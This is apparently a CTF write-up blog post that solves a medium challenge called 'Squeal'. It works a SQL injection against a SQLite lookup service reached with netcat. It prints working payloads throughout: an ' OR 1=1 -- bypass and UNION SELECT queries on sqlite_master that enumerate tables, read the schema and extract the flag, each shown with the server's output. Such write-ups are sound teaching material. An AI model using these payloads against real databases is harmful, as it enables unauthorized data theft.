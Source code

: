 ```yaml
---
layout: post
title: ""Squeal" Writeup"
subtitle: "Medium Binary Exploitation Chall for TUCTF 2025"
description: "Medium Binary Exploitation Chall for TUCTF 2025"
author: "jxkxl"
header-style: text
tags:
  - CTF
  - Writeup
  - Pwn
  - Misc
  - NUIGCompSocCTF2025
---
```


Our server runs a light database that allows users to enter an artist's name to check if they are in our Billboard Top 10 table. I wonder if there's anything else interesting in that database...

## Tools Used

netcat

## Approach

### Initial Analysis

I first connected to the service via netcat, and was greeted with the following:

```
nc 140.203.18.3 10020
This script accepts the name of an artist and checks if they are currently in the Billboard Top 10 table in our database, e.g. Sabrina Carpenter
Enter an artist's name:
```

My first impression was this was obviously a database of some sort, and I was going to have to exploit something related to this fact. My first guess was that this could be some kind of SQL database, as the title of the challenge was "Squeal" and the description mentions a "light database". My guess is that this is a some kind of SQLite service running off this port. To see if this is true, and if it is exploitable, I did the ol' reliable:

```sql
' OR 1=1 --
```

and got this output:

```sql
1|Die With A Smile|Lady Gaga, Bruno Mars
2|BIRDS OF A FEATHER|Billie Eilish
3|Taste|Sabrina Carpenter
4|Who|Jimin
5|Espresso|Sabrina Carpenter
6|The Emptiness Machine|Linkin Park
7|Please Please Please|Sabrina Carpenter
8|Si Antes Te Hubiera Conocido|KAROL G
9|Good Luck, Babe!|Chappell Roan
10|Beautiful Things|Benson Boone
```

Nice! This showed that the database was in fact some kind of SQLite database, and vulnerable to SQL injection.

### Enumeration

Now that I knew SQL injection was possible, I wanted to see if there were more tables in the database, so I ran the following payload:

```sql
' UNION SELECT 1, name, 3 FROM sqlite_master WHERE type='table'; --
```

and it came back with the following:

```sql
1|flags|3
1|singles|3
```

I found that there was another table called `flags`, which was cool. Now I know which table I need to start looking at.

### Finding the Flag

Now that I knew there was a table called `flags`, I looked into `sqlite_master` to see how the table was structured. This would help me navigate to the correct column to extract. So I crafted the following query to call `sqlite_master` and use it to inspect the schema table:

```sql
' UNION SELECT 1, sql, 3 FROM sqlite_master WHERE type='table' AND name='flags'; --
```

This returned:

```sql
CREATE TABLE flags (
    secret VARCHAR(255) NOT NULL,
    PRIMARY KEY (secret)
)
```

So now I knew the column I needed to get the flag was going to be  in `secret`.

### Extracting the Flag

With that knowledge, I queried the final paylaod to the server that i would need:

```sql
' UNION SELECT 1, secret, 3 FROM flags; --
```

and got:

```sql
1|CompSoc{v4cc1nati0n}|3
```

Coolio.

## Solution

- **Flag:** `CompSoc{v4cc1nati0n}`
